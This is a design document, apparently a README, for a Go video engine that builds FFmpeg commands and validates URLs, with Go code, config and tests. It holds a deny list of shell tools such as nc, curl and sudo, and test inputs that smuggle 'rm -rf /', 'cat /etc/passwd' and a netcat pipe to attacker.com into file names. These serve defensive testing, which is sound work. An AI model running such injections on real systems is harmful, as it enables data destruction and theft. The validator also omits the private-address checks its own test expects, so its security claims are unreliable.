


# VideoCraft Video Engine - FFmpeg Integration & Security-First Command Construction

The video engine represents the core of VideoCraft's video generation capabilities, implementing secure FFmpeg command construction, comprehensive security controls, and sophisticated video processing workflows with progressive subtitle integration.

## 🎬 Video Engine Architecture



## 📁 Engine Package Structure

```
internal/core/video/engine/
├── command.go            # FFmpeg command construction and execution
└── security.go          # Security validation and injection prevention
```

## ⚙️ FFmpeg Service Interface

### Comprehensive Video Generation API

```go
type Service interface {
    // Core video generation methods
    GenerateVideo(ctx context.Context, config *models.VideoConfigArray, progressChan chan<- int) (string, error)
    GenerateVideoWithSubtitles(ctx context.Context, config *models.VideoConfigArray, subtitleFilePath string, progressChan chan<- int) (string, error)
    
    // Command building and execution
    BuildCommand(config *models.VideoConfigArray) (*FFmpegCommand, error)
    Execute(ctx context.Context, cmd *FFmpegCommand) error
}

type FFmpegCommand struct {
    Args       []string  // Complete FFmpeg arguments
    OutputPath string    // Generated output file path
}

type service struct {
    cfg *app.Config
    log logger.Logger
}

const (
    elementTypeVideo     = "video"
    elementTypeAudio     = "audio"
    elementTypeSubtitles = "subtitles"
    videoInputRef        = "0:v"
)
```

## 🎯 Video Generation Implementation

### Main Generation Workflow



### Video Generation with Security

```go
func (s *service) GenerateVideo(ctx context.Context, config *models.VideoConfigArray, progressChan chan<- int) (string, error) {
    s.log.Info("Starting video generation")
    
    // Build FFmpeg command with comprehensive security validation
    cmd, err := s.BuildCommand(config)
    if err != nil {
        return "", errors.FFmpegFailed(fmt.Errorf("failed to build command: %w", err))
    }
    
    s.log.Debugf("Generated FFmpeg command: %s %s", s.cfg.FFmpeg.BinaryPath, strings.Join(cmd.Args, " "))
    
    // Execute with timeout and context cancellation
    ctx, cancel := context.WithTimeout(ctx, s.cfg.FFmpeg.Timeout)
    defer cancel()
    
    ffmpegCmd := exec.CommandContext(ctx, s.cfg.FFmpeg.BinaryPath, cmd.Args...)
    
    // Setup real-time progress tracking
    if progressChan != nil {
        stderr, err := ffmpegCmd.StderrPipe()
        if err != nil {
            return "", errors.FFmpegFailed(err)
        }
        
        // Parse progress in dedicated goroutine
        go s.parseProgress(stderr, progressChan)
    }
    
    // Execute FFmpeg command
    if err := ffmpegCmd.Run(); err != nil {
        return "", errors.FFmpegFailed(err)
    }
    
    s.log.Infof("Video generation completed: %s", cmd.OutputPath)
    return cmd.OutputPath, nil
}
```

### Progressive Subtitle Integration

```go
func (s *service) GenerateVideoWithSubtitles(ctx context.Context, config *models.VideoConfigArray, subtitleFilePath string, progressChan chan<- int) (string, error) {
    s.log.Info("Starting video generation with progressive subtitles")
    s.log.Debugf("Subtitle file: %s", subtitleFilePath)
    
    if len(*config) == 0 {
        return "", fmt.Errorf("no video projects provided")
    }
    
    project := (*config)[0]
    audioElements := s.collectAudioElements(project)
    totalDuration := s.calculateTotalDuration(audioElements)
    
    // Build FFmpeg command with subtitle integration
    cmd, err := s.buildCommandWithSubtitleFileAndDuration(config, subtitleFilePath, totalDuration)
    if err != nil {
        return "", errors.FFmpegFailed(fmt.Errorf("failed to build command with subtitles: %w", err))
    }
    
    s.log.Debugf("Generated FFmpeg command with subtitles: %s %s", s.cfg.FFmpeg.BinaryPath, strings.Join(cmd.Args, " "))
    
    // Execute with timeout
    ctx, cancel := context.WithTimeout(ctx, s.cfg.FFmpeg.Timeout)
    defer cancel()
    
    ffmpegCmd := exec.CommandContext(ctx, s.cfg.FFmpeg.BinaryPath, cmd.Args...)
    
    // Setup progress tracking
    if progressChan != nil {
        stderr, err := ffmpegCmd.StderrPipe()
        if err != nil {
            return "", errors.FFmpegFailed(err)
        }
        
        go s.parseProgress(stderr, progressChan)
    }
    
    // Execute command
    if err := ffmpegCmd.Run(); err != nil {
        return "", errors.FFmpegFailed(err)
    }
    
    s.log.Infof("Video generation with subtitles completed: %s", cmd.OutputPath)
    return cmd.OutputPath, nil
}
```

## 🔨 Advanced Command Construction

### Secure Command Building

```go
func (s *service) BuildCommand(config *models.VideoConfigArray) (*FFmpegCommand, error) {
    if len(*config) == 0 {
        return nil, fmt.Errorf("no video projects provided")
    }
    
    // CRITICAL: Security validation - Check all URLs in configuration
    if err := s.validateAllURLsInConfig(config); err != nil {
        return nil, fmt.Errorf("security validation failed: %w", err)
    }
    
    project := (*config)[0]
    builder := newCommandBuilder()
    
    // Find background video element
    var backgroundVideo *models.Element
    for _, element := range project.Elements {
        if element.Type == elementTypeVideo {
            backgroundVideo = &element
            break
        }
    }
    
    if backgroundVideo == nil {
        return nil, fmt.Errorf("no background video element found")
    }
    
    // Collect media elements from scenes
    audioElements := s.collectAudioElements(project)
    imageElements := s.collectImageElements(project)
    totalDuration := s.calculateTotalDuration(audioElements)
    
    // Add inputs with security protocols
    builder.addInput("-y") // Overwrite output
    builder.addInput("-protocol_whitelist", "file,http,https,tcp,tls")
    
    // Background video with intelligent looping
    loopsNeeded := int(totalDuration/backgroundVideo.Duration) + 1
    builder.addInput("-stream_loop", fmt.Sprintf("%d", loopsNeeded), "-i", backgroundVideo.Src)
    
    // Audio inputs in scene order
    for _, audio := range audioElements {
        builder.addInput("-i", audio.Src)
    }
    
    // Image inputs for overlays
    for _, image := range imageElements {
        builder.addInput("-i", image.Src)
    }
    
    // Build sophisticated filter complex
    sceneTiming := s.generateFallbackTiming(audioElements)
    filterComplex := s.buildFilterComplexWithSceneTiming(project, audioElements, imageElements, sceneTiming, totalDuration)
    
    if filterComplex != "" {
        builder.addArg("-filter_complex", filterComplex)
    }
    
    // Map outputs intelligently
    if len(imageElements) > 0 {
        builder.addArg("-map", fmt.Sprintf("[overlay_%d]", len(imageElements)-1))
    } else {
        builder.addArg("-map", "0:v")
    }
    
    if len(audioElements) > 0 {
        builder.addArg("-map", "[final_audio]")
    }
    
    // Set precise duration
    builder.addArg("-t", fmt.Sprintf("%.2f", totalDuration))
    
    // Add optimized output settings
    s.addOutputSettingsForProject(builder, project)
    
    // Generate secure output path
    outputPath := s.generateOutputPathForProject(project)
    builder.addArg(outputPath)
    
    return &FFmpegCommand{
        Args:       builder.args,
        OutputPath: outputPath,
    }, nil
}
```

### Advanced Filter Complex Generation

```go
func (s *service) buildFilterComplexWithSceneTiming(project models.VideoProject, audioElements, imageElements []models.Element, sceneTiming []models.TimingSegment, totalDuration float64) string {
    var filters []string
    
    // Audio concatenation with padding
    s.addAudioConcatenationFilters(&filters, audioElements)
    
    // Image overlays with precise timing based on audio analysis
    currentInput := s.addImageOverlayFilters(&filters, imageElements, audioElements, sceneTiming)
    _ = currentInput // Prevent unused variable warning
    
    return strings.Join(filters, ";")
}

func (s *service) addAudioConcatenationFilters(filters *[]string, audioElements []models.Element) {
    if len(audioElements) > 1 {
        // Multiple audio files - concatenate them
        audioInputs := make([]string, len(audioElements))
        for i := range audioElements {
            audioInputs[i] = fmt.Sprintf("[%d:a]", i+1) // +1 because 0 is background video
        }
        audioConcat := fmt.Sprintf("%sconcat=n=%d:v=0:a=1[concatenated_audio]",
            strings.Join(audioInputs, ""),
            len(audioElements))
        *filters = append(*filters, audioConcat)
        *filters = append(*filters, "[concatenated_audio]apad=pad_dur=2[final_audio]")
    } else if len(audioElements) == 1 {
        // Single audio file - just add padding
        *filters = append(*filters, "[1:a]apad=pad_dur=2[final_audio]")
    }
}

func (s *service) addImageOverlayFilters(filters *[]string, imageElements, audioElements []models.Element, sceneTiming []models.TimingSegment) string {
    currentInput := videoInputRef
    
    for i, image := range imageElements {
        // Use scene timing from audio analysis
        var startTime, endTime float64
        if i < len(sceneTiming) {
            startTime = sceneTiming[i].StartTime
            endTime = sceneTiming[i].EndTime
        } else {
            // Fallback if we have more images than timing segments
            startTime = float64(i) * 5.0
            endTime = startTime + 5.0
        }
        
        s.log.Debugf("Image %d overlay timing: %.2fs - %.2fs (duration: %.2fs)",
            i, startTime, endTime, endTime-startTime)
        
        // Scale image to consistent size
        imageInputIndex := len(audioElements) + 1 + i
        scaleFilter := fmt.Sprintf("[%d:v]scale=500:500[scaled_img_%d]",
            imageInputIndex, i)
        *filters = append(*filters, scaleFilter)
        
        // Overlay with precise timing control
        overlayFilter := fmt.Sprintf("[%s][scaled_img_%d]overlay=%d:%d:enable='between(t\\,%f\\,%f)'[overlay_%d]",
            currentInput, i, image.X, image.Y, startTime, endTime, i)
        *filters = append(*filters, overlayFilter)
        
        currentInput = fmt.Sprintf("overlay_%d", i)
    }
    
    return currentInput
}
```

### Subtitle Integration with ASS Support

```go
func (s *service) buildCommandWithSubtitleFileAndDuration(config *models.VideoConfigArray, subtitleFilePath string, totalDuration float64) (*FFmpegCommand, error) {
    if len(*config) == 0 {
        return nil, fmt.Errorf("no video projects provided")
    }
    
    project := (*config)[0]
    builder := newCommandBuilder()
    
    // Find background video element
    var backgroundVideo *models.Element
    for _, element := range project.Elements {
        if element.Type == elementTypeVideo {
            backgroundVideo = &element
            break
        }
    }
    
    if backgroundVideo == nil {
        return nil, fmt.Errorf("no background video element found")
    }
    
    // Collect media elements
    audioElements := s.collectAudioElements(project)
    imageElements := s.collectImageElements(project)
    
    // Analyze scene timing for precise overlay synchronization
    sceneTiming, err := s.analyzeSceneTiming(audioElements)
    if err != nil {
        s.log.Warnf("Failed to analyze scene timing: %v, using fallback", err)
        sceneTiming = s.generateFallbackTiming(audioElements)
    }
    
    // Add inputs with security controls
    builder.addInput("-y") // Overwrite output
    builder.addInput("-protocol_whitelist", "file,http,https,tcp,tls")
    
    // Background video with loop
    loopsNeeded := int(totalDuration/backgroundVideo.Duration) + 1
    builder.addInput("-stream_loop", fmt.Sprintf("%d", loopsNeeded), "-i", backgroundVideo.Src)
    
    // Audio inputs
    for _, audio := range audioElements {
        builder.addInput("-i", audio.Src)
    }
    
    // Image inputs
    for _, image := range imageElements {
        builder.addInput("-i", image.Src)
    }
    
    // Build filter complex with subtitle support and precise timing
    filterComplex := s.buildFilterComplexWithSubtitlesAndTiming(project, audioElements, imageElements, sceneTiming, totalDuration, subtitleFilePath)
    
    if filterComplex != "" {
        builder.addArg("-filter_complex", filterComplex)
    }
    
    // Map outputs with subtitle consideration
    outputVideoStream := s.getOutputVideoStream(imageElements, subtitleFilePath)
    builder.addArg("-map", outputVideoStream)
    
    if len(audioElements) > 0 {
        builder.addArg("-map", "[final_audio]")
    }
    
    // Set duration and output settings
    builder.addArg("-t", fmt.Sprintf("%.2f", totalDuration))
    s.addOutputSettingsForProject(builder, project)
    
    // Generate output path
    outputPath := s.generateOutputPathForProject(project)
    builder.addArg(outputPath)
    
    return &FFmpegCommand{
        Args:       builder.args,
        OutputPath: outputPath,
    }, nil
}

func (s *service) addSubtitleFilter(filters *[]string, currentVideo string, subtitleFilePath string) string {
    s.log.Infof("Adding progressive subtitle overlay: %s", subtitleFilePath)
    
    if currentVideo == videoInputRef {
        *filters = append(*filters, fmt.Sprintf("[0:v]ass='%s'[subtitled_video]", subtitleFilePath))
    } else {
        *filters = append(*filters, fmt.Sprintf("[%s]ass='%s'[subtitled_video]", currentVideo, subtitleFilePath))
    }
    
    return "subtitled_video"
}

func (s *service) buildFilterComplexWithSubtitlesAndTiming(project models.VideoProject, audioElements, imageElements []models.Element, sceneTiming []models.TimingSegment, totalDuration float64, subtitleFilePath string) string {
    var filters []string
    
    // Audio concatenation
    s.addAudioConcatenationFilters(&filters, audioElements)
    
    // Image overlays with timing based on actual audio analysis
    currentInput := s.addImageOverlayFilters(&filters, imageElements, audioElements, sceneTiming)
    
    // Add progressive subtitle filter if subtitle file is provided
    if subtitleFilePath != "" {
        finalVideoStream := s.addSubtitleFilter(&filters, currentInput, subtitleFilePath)
        _ = finalVideoStream // Update the final output stream name
    }
    
    return strings.Join(filters, ";")
}
```

## 🛡️ Comprehensive Security Layer

### Multi-Layer Security Architecture

```mermaid
graph TB
    subgraph "Security Validation Pipeline"
        INPUT[User Input] -->|1| DATA_URI[Data URI Detection]
        DATA_URI -->|2| INJECTION[Injection Character Check]
        INJECTION -->|3| TRAVERSAL[Path Traversal Check]
        TRAVERSAL -->|4| PROTOCOL[Protocol Validation]
        PROTOCOL -->|5| ALLOWLIST[Domain Allowlist]
        ALLOWLIST -->|6| SAFE[Safe for Processing]
    end
    
    subgraph "Threat Detection Patterns"
        DANGEROUS_SCHEMES[javascript:, data:, file:]
        INJECTION_CHARS[;|`$(){}]
        TRAVERSAL_PATTERNS[../, ..\\]
        MALICIOUS_COMMANDS[rm, sudo, bash, etc.]
    end
    
    subgraph "Security Controls"
        SANITIZATION[Input Sanitization]
        LOGGING[Security Violation Logging]
        MONITORING[Real-time Monitoring]
        ALERTING[Security Alerting]
    end
    
    DATA_URI -.->|Detect| DANGEROUS_SCHEMES
    INJECTION -.->|Detect| INJECTION_CHARS
    TRAVERSAL -.->|Detect| TRAVERSAL_PATTERNS
    ALLOWLIST -.->|Check| MALICIOUS_COMMANDS
    
    DANGEROUS_SCHEMES --> LOGGING
    INJECTION_CHARS --> LOGGING
    TRAVERSAL_PATTERNS --> LOGGING
    MALICIOUS_COMMANDS --> LOGGING
    
    LOGGING --> MONITORING
    MONITORING --> ALERTING
    
    INPUT -.->|Alternative| SANITIZATION
    SANITIZATION -.->|Clean| SAFE
    
    style INPUT fill:#e3f2fd
    style SAFE fill:#e8f5e8
    style LOGGING fill:#ffebee
    style DANGEROUS_SCHEMES fill:#ffcdd2
```

### Advanced URL Validation

```go
var (
    // Prohibited characters that could be used for command injection
    prohibitedCharsRegex = regexp.MustCompile(`[;|` + "`" + `$(){}]`)
    
    // Path traversal patterns for directory navigation attacks
    pathTraversalRegex = regexp.MustCompile(`\.\.\/|\.\.\\`)
    
    // Allowed URL protocols for security
    allowedProtocols = map[string]bool{
        "http":  true,
        "https": true,
    }
    
    // Dangerous commands that should be rejected after sanitization
    dangerousCommands = map[string]bool{
        "rm": true, "cat": true, "ls": true, "chmod": true, "chown": true,
        "sudo": true, "su": true, "bash": true, "sh": true, "cmd": true,
        "powershell": true, "wget": true, "curl": true, "nc": true, "netcat": true,
    }
)

func (s *service) ValidateURL(rawURL string) error {
    // Allow empty URLs (will be handled by other validation layers)
    if rawURL == "" {
        return nil
    }
    
    // Early rejection of data URIs (most common injection vector)
    if err := s.checkForDataURI(rawURL); err != nil {
        return err
    }
    
    // Character-based injection detection
    if err := s.checkForInjectionChars(rawURL); err != nil {
        return err
    }
    
    // Path traversal detection
    if err := s.checkForPathTraversal(rawURL); err != nil {
        return err
    }
    
    // URL structure validation and protocol checking
    return s.validateURLStructureAndProtocol(rawURL)
}

func (s *service) checkForDataURI(rawURL string) error {
    lowerURL := strings.ToLower(rawURL)
    
    // Check for dangerous URI schemes
    dangerousSchemes := []string{"data:", "javascript:", "vbscript:", "file:"}
    
    for _, scheme := range dangerousSchemes {
        if strings.HasPrefix(lowerURL, scheme) {
            s.logSecurityViolation("URL validation failed", map[string]interface{}{
                "url":            rawURL,
                "violation_type": "protocol_violation",
                "reason":         fmt.Sprintf("Protocol %s not allowed", scheme),
            })
            return errors.New("protocol not allowed")
        }
    }
    
    return nil
}

func (s *service) checkForInjectionChars(rawURL string) error {
    if prohibitedCharsRegex.MatchString(rawURL) {
        s.logSecurityViolation("URL validation failed", map[string]interface{}{
            "url":            rawURL,
            "violation_type": "command_injection",
            "reason":         "URL contains prohibited characters",
        })
        return errors.New("URL contains prohibited characters")
    }
    return nil
}

func (s *service) checkForPathTraversal(rawURL string) error {
    if pathTraversalRegex.MatchString(rawURL) {
        s.logSecurityViolation("URL validation failed", map[string]interface{}{
            "url":            rawURL,
            "violation_type": "path_traversal",
            "reason":         "URL contains path traversal sequences",
        })
        return errors.New("URL contains path traversal sequences")
    }
    return nil
}
```

### Input Sanitization & Command Protection

```go
func (s *service) SanitizeInput(input string) (string, error) {
    original := input
    
    // Remove prohibited characters
    sanitized := prohibitedCharsRegex.ReplaceAllString(input, "")
    
    // Clean path traversal sequences
    sanitized = pathTraversalRegex.ReplaceAllString(sanitized, "")
    
    // Split by spaces and keep only the first token (before any command)
    tokens := strings.Fields(sanitized)
    if len(tokens) > 0 {
        sanitized = tokens[0]
    }
    
    // Remove extra whitespace
    sanitized = strings.TrimSpace(sanitized)
    
    // If the entire input was malicious content or only common command names, reject it
    if sanitized == "" && original != "" {
        return "", errors.New("input contains only malicious content")
    }
    
    // Additional check: reject if sanitized result is a common dangerous command
    if dangerousCommands[strings.ToLower(sanitized)] {
        return "", errors.New("input contains only malicious content")
    }
    
    return sanitized, nil
}

func (s *service) ValidateURLAllowlist(rawURL string) error {
    // If no allowlist is configured, allow all valid URLs
    if len(s.cfg.Security.AllowedDomains) == 0 {
        return nil
    }
    
    parsedURL, err := url.Parse(rawURL)
    if err != nil {
        return fmt.Errorf("invalid URL format: %w", err)
    }
    
    // Check if domain is in allowlist
    for _, allowedDomain := range s.cfg.Security.AllowedDomains {
        if parsedURL.Host == allowedDomain {
            return nil
        }
    }
    
    s.logSecurityViolation("Domain not in allowlist", map[string]interface{}{
        "url":            rawURL,
        "domain":         parsedURL.Host,
        "violation_type": "domain_not_allowed",
    })
    
    return errors.New("domain not in allowlist")
}
```

### Comprehensive Configuration Validation

```go
func (s *service) validateAllURLsInConfig(config *models.VideoConfigArray) error {
    urlCount := 0
    
    for projectIdx, project := range *config {
        for sceneIdx, scene := range project.Scenes {
            for elementIdx, element := range scene.Elements {
                if element.Src != "" {
                    urlCount++
                    
                    // Create context for better error reporting
                    elementContext := fmt.Sprintf("project[%d].scene[%d].element[%d](%s)",
                        projectIdx, sceneIdx, elementIdx, element.Type)
                    
                    // Basic URL validation
                    if err := s.ValidateURL(element.Src); err != nil {
                        return fmt.Errorf("security validation failed for %s: %w", elementContext, err)
                    }
                    
                    // Domain allowlist validation
                    if err := s.ValidateURLAllowlist(element.Src); err != nil {
                        return fmt.Errorf("security validation failed for %s: %w", elementContext, err)
                    }
                }
            }
        }
    }
    
    // Log successful validation for monitoring
    s.log.WithFields(map[string]interface{}{
        "urls_validated": urlCount,
        "projects":       len(*config),
    }).Info("All URLs passed security validation")
    
    return nil
}

func (s *service) logSecurityViolation(message string, fields map[string]interface{}) {
    s.log.WithFields(fields).Errorf("SECURITY_VIOLATION: %s", message)
}
```

## 📊 Real-Time Progress Tracking

### Advanced FFmpeg Progress Parser

```go
func (s *service) parseProgress(stderr io.ReadCloser, progressChan chan<- int) {
    defer close(progressChan)
    defer stderr.Close()
    
    scanner := bufio.NewScanner(stderr)
    var totalDuration float64
    
    // Regular expressions for parsing FFmpeg output
    durationRegex := regexp.MustCompile(`Duration: (\d{2}):(\d{2}):(\d{2})\.(\d{2})`)
    timeRegex := regexp.MustCompile(`time=(\d{2}):(\d{2}):(\d{2})\.(\d{2})`)
    
    for scanner.Scan() {
        line := scanner.Text()
        s.log.Debugf("FFmpeg output: %s", line)
        
        // Parse total duration from the beginning
        if totalDuration == 0 {
            if matches := durationRegex.FindStringSubmatch(line); len(matches) == 5 {
                hours, _ := strconv.Atoi(matches[1])
                minutes, _ := strconv.Atoi(matches[2])
                seconds, _ := strconv.Atoi(matches[3])
                centiseconds, _ := strconv.Atoi(matches[4])
                
                totalDuration = float64(hours*3600+minutes*60+seconds) + float64(centiseconds)/100
                s.log.Debugf("Total duration parsed: %.2f seconds", totalDuration)
            }
        }
        
        // Parse current time progress
        if totalDuration > 0 {
            if matches := timeRegex.FindStringSubmatch(line); len(matches) == 5 {
                hours, _ := strconv.Atoi(matches[1])
                minutes, _ := strconv.Atoi(matches[2])
                seconds, _ := strconv.Atoi(matches[3])
                centiseconds, _ := strconv.Atoi(matches[4])
                
                currentTime := float64(hours*3600+minutes*60+seconds) + float64(centiseconds)/100
                progress := int((currentTime / totalDuration) * 100)
                
                // Cap progress at 100%
                if progress > 100 {
                    progress = 100
                }
                
                // Send progress update non-blocking
                select {
                case progressChan <- progress:
                    s.log.Debugf("Progress update: %d%%", progress)
                default:
                    // Channel blocked, skip this update
                }
            }
        }
    }
    
    if err := scanner.Err(); err != nil {
        s.log.Errorf("Error reading FFmpeg stderr: %v", err)
    }
}
```

## 🎬 Helper Functions & Utilities

### Media Element Collection

```go
func (s *service) collectAudioElements(project models.VideoProject) []models.Element {
    var audioElements []models.Element
    
    // Collect from scenes in order
    for _, scene := range project.Scenes {
        for _, element := range scene.Elements {
            if element.Type == elementTypeAudio {
                audioElements = append(audioElements, element)
            }
        }
    }
    
    return audioElements
}

func (s *service) collectImageElements(project models.VideoProject) []models.Element {
    var imageElements []models.Element
    
    // Collect from scenes in order
    for _, scene := range project.Scenes {
        for _, element := range scene.Elements {
            if element.Type == "image" {
                imageElements = append(imageElements, element)
            }
        }
    }
    
    return imageElements
}

func (s *service) calculateTotalDuration(audioElements []models.Element) float64 {
    var total float64
    for _, audio := range audioElements {
        if audio.Duration > 0 {
            total += audio.Duration
        }
    }
    // Add 2 second buffer for smooth transitions
    return total + 2.0
}
```

### Scene Timing Analysis

```go
func (s *service) analyzeSceneTiming(audioElements []models.Element) ([]models.TimingSegment, error) {
    // TODO: Implement advanced audio timing analysis
    // This would integrate with the audio service for precise timing
    return nil, fmt.Errorf("audio timing analysis not yet implemented")
}

func (s *service) generateFallbackTiming(audioElements []models.Element) []models.TimingSegment {
    segments := make([]models.TimingSegment, len(audioElements))
    currentTime := 0.0
    
    for i, audio := range audioElements {
        duration := audio.Duration
        if duration <= 0 {
            duration = 5.0 // default fallback duration
        }
        
        segments[i] = models.TimingSegment{
            StartTime: currentTime,
            EndTime:   currentTime + duration,
            AudioFile: audio.Src,
        }
        currentTime += duration
    }
    
    return segments
}
```

### Output Configuration

```go
func (s *service) addOutputSettingsForProject(builder *commandBuilder, project models.VideoProject) {
    // Video codec settings
    builder.addArg("-c:v", "libx264")
    builder.addArg("-c:a", "aac")
    
    // Quality settings based on project configuration
    if project.Quality == "high" {
        builder.addArg("-crf", "18") // High quality
    } else {
        builder.addArg("-crf", "23") // Standard quality
    }
    
    // Resolution settings
    if project.Width > 0 && project.Height > 0 {
        builder.addArg("-s", fmt.Sprintf("%dx%d", project.Width, project.Height))
    }
    
    // Optimization settings
    builder.addArg("-preset", "medium")      // Encoding speed vs compression
    builder.addArg("-movflags", "+faststart") // Enable progressive download
    builder.addArg("-pix_fmt", "yuv420p")   // Wide compatibility pixel format
}

func (s *service) generateOutputPathForProject(project models.VideoProject) string {
    format := "mp4" // Default format for wide compatibility
    filename := fmt.Sprintf("video_%s.%s", uuid.New().String()[:8], format)
    return filepath.Join(s.cfg.Storage.OutputDir, filename)
}

func (s *service) getOutputVideoStream(imageElements []models.Element, subtitleFilePath string) string {
    if subtitleFilePath != "" {
        return "[subtitled_video]"
    } else if len(imageElements) > 0 {
        return fmt.Sprintf("[overlay_%d]", len(imageElements)-1)
    } else {
        return videoInputRef
    }
}
```

### Command Builder Helper

```go
type commandBuilder struct {
    args []string
}

func newCommandBuilder() *commandBuilder {
    return &commandBuilder{
        args: []string{"-y"}, // Always overwrite output
    }
}

func (cb *commandBuilder) addInput(args ...string) {
    cb.args = append(cb.args, args...)
}

func (cb *commandBuilder) addArg(args ...string) {
    cb.args = append(cb.args, args...)
}
```

## 🔧 Configuration

### Engine Configuration

```yaml
ffmpeg:
  binary_path: "ffmpeg"          # FFmpeg executable path
  probe_path: "ffprobe"          # FFprobe executable path
  timeout: "30m"                 # Maximum processing time
  threads: 0                     # CPU threads (0 = auto-detect)
  preset: "medium"               # Encoding preset
  
video:
  output_format: "mp4"           # Default output format
  default_resolution: "1920x1080" # Default resolution
  default_crf: 23                # Constant Rate Factor (quality)
  high_quality_crf: 18           # High quality CRF
  max_duration: 1800             # 30 minutes maximum
  
processing:
  buffer_duration: 2.0           # Audio buffer in seconds
  overlay_scale: "500:500"       # Default image overlay size
  loop_buffer: 1                 # Extra loops for background video
  
security:
  allowed_protocols: ["http", "https"]
  allowed_domains: []            # Empty array = allow all
  max_url_length: 2048
  validate_urls: true
  sanitize_inputs: true
  log_violations: true
  
progress:
  update_interval: "1s"          # Progress update frequency
  timeout_duration: "30m"       # Progress parsing timeout
  stderr_buffer_size: 1024      # stderr reading buffer size
```

## 🧪 Testing Strategy

### Security Testing

```go
func TestEngineService_SecurityValidation(t *testing.T) {
    maliciousURLs := []string{
        "javascript:alert('xss')",
        "data:text/html,<script>alert('xss')</script>",
        "file:///etc/passwd",
        "http://localhost/admin",
        "https://example.com/../../../etc/passwd",
        "http://192.168.1.1/internal",
        "test.mp4; rm -rf /",
        "video.mp4 && cat /etc/passwd",
        "file.mp4 | nc attacker.com 8080",
    }
    
    service := NewService(cfg, logger.NewNoop())
    
    for _, maliciousURL := range maliciousURLs {
        t.Run(maliciousURL, func(t *testing.T) {
            err := service.ValidateURL(maliciousURL)
            assert.Error(t, err, "Should reject malicious URL: %s", maliciousURL)
        })
    }
}

func TestEngineService_CommandConstruction(t *testing.T) {
    config := &models.VideoConfigArray{
        {
            Scenes: []models.Scene{{
                ID: "scene1",
                Elements: []models.Element{
                    {
                        Type: "audio",
                        Src:  "https://example.com/audio.mp3",
                        Duration: 30.0,
                    },
                    {
                        Type: "image",
                        Src:  "https://example.com/image.jpg",
                        X:    100,
                        Y:    100,
                    },
                },
            }},
            Elements: []models.Element{
                {
                    Type: "video",
                    Src:  "https://example.com/background.mp4",
                    Duration: 60.0,
                },
            },
            Quality: "high",
            Width:   1920,
            Height:  1080,
        },
    }
    
    service := NewService(cfg, logger.NewNoop())
    
    // Test command building
    cmd, err := service.BuildCommand(config)
    require.NoError(t, err)
    assert.NotEmpty(t, cmd.Args)
    assert.NotEmpty(t, cmd.OutputPath)
    
    // Verify security: no dangerous characters in arguments
    for _, arg := range cmd.Args {
        assert.NotContains(t, arg, ";")
        assert.NotContains(t, arg, "|")
        assert.NotContains(t, arg, "&")
        assert.NotContains(t, arg, "`")
        assert.NotContains(t, arg, "$")
    }
    
    // Verify expected arguments
    argString := strings.Join(cmd.Args, " ")
    assert.Contains(t, argString, "-y")
    assert.Contains(t, argString, "-protocol_whitelist")
    assert.Contains(t, argString, "file,http,https,tcp,tls")
    assert.Contains(t, argString, "-c:v")
    assert.Contains(t, argString, "libx264")
    assert.Contains(t, argString, "-crf")
    assert.Contains(t, argString, "18") // High quality CRF
}
```

### Integration Testing

```go
func TestEngineService_ProgressTracking(t *testing.T) {
    service := NewService(cfg, logger.NewNoop())
    
    // Create a mock stderr output
    stderrContent := `
Duration: 00:00:30.00, start: 0.000000, bitrate: 128 kb/s
time=00:00:05.00 bitrate=128.0kbits/s speed=2.5x
time=00:00:10.00 bitrate=128.0kbits/s speed=2.4x
time=00:00:15.00 bitrate=128.0kbits/s speed=2.3x
time=00:00:20.00 bitrate=128.0kbits/s speed=2.2x
time=00:00:25.00 bitrate=128.0kbits/s speed=2.1x
time=00:00:30.00 bitrate=128.0kbits/s speed=2.0x
`
    
    stderr := io.NopCloser(strings.NewReader(stderrContent))
    progressChan := make(chan int, 10)
    
    // Test progress parsing
    go service.parseProgress(stderr, progressChan)
    
